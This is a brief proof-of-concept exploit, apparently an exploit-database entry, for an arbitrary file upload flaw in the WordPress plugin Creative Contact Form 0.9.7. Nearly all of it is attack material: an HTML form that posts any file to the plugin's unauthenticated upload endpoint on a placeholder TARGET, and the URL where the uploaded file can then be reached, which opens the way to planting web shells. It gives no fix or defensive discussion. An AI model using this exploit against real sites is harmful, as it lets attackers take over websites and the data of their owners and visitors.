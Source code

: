 # WordPress Plugin Creative Contact Form 0.9.7 - Arbitrary File Upload
<br>
## PoC<br>
Trigger a file upload<br>
<br>

```
<form method="POST" action="
http://TARGET/wp-content/plugins/sexy-contact-form/includes/fileupload/index.php"
enctype="multipart/form-data">
<input type="file" name="files[]" /><button>Upload</button>
</form>
```

<br>
Then the file is accessible under
<br>
http://TARGET/wp-content/plugins/sexy-contact-form/includes/fileupload/files/FILENAME
==========================================================
